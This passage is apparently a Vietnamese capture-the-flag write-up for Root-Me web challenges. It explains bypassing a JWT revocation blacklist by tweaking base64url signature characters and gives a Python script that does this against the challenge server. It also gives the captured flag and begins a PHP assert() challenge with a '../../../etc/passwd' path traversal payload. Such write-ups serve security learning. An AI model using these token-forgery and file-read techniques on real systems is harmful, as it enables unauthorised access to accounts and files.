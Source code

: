 Khi access vào admin, nó sẽ kiểm tra header Authorization để check xem cái jwt đó nó có hợp lệ hay không và có nằm trong blacklist hay không. Vậy làm thế nào để có thể bypass cái này khi mà vừa xác thực thành công thì JWT đã bị đưa vào blacklist. 

Vậy solution ở đây sẽ là thay đổi signature key mà không làm thay đổi nội dung của nó :v . Nhắc lại token jwt đưọc tạo như sau:

```
const token = base64urlEncoding(header) + '.' + base64urlEncoding(payload) + '.' + base64urlEncoding(signature)
```

Có kha khá trick để thay để signature để khi mà decode base64 ra thì nội dung nó vẫn thế ( nhưng mà tạo sao chỉ đc thay đổi signature thôi ? Bởi vì signature đưọc tạo ra gồm bởi header,payload,secret(optional) và alg, nếu thay đổi header or payload -> new signature)

Ở đây ta có thể thêm = vào cuối vì khi decode b64 nó sẽ trả về giống nhau.

Ngoài ra, mình có thể generate cái token đến khi nào phần signature key có ``-``, và mình sẽ thực hiện thay đổi nó thành ``/`` (bởi vì ``-`` và ``/`` sau khi decode b64 sẽ trả về kqua giống nhau) 

```
#!python3

import string
import requests
url='http://challenge01.root-me.org/web-serveur/ch63/'
data1={"username":"admin","password":"admin"}
while True:
    r=requests.post(url+'login',json=data1).text
    a=r[17:len(r)-3:].split('.')
    if "_" in a[2]:
        a[2]=a[2].replace('_','/')
        string='.'.join(a)
        header={"Authorization": "Bearer " + string}
        res=requests.get(url+'admin',headers=header).text
        print(res)
        break
```

flag: Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld

# PHP - assert()
## Description
Find and exploit the vulnerability to read the file .passwd.
## Solution
Nhìn qua url là biết đây là bị lỗi LFI thông qua param ``page``. Thử nhẹ payload ``../../../etc/passwd`` xem thế nào.

![img](./img/Screenshot%20from%202022-02-26%2014-40-44.png)
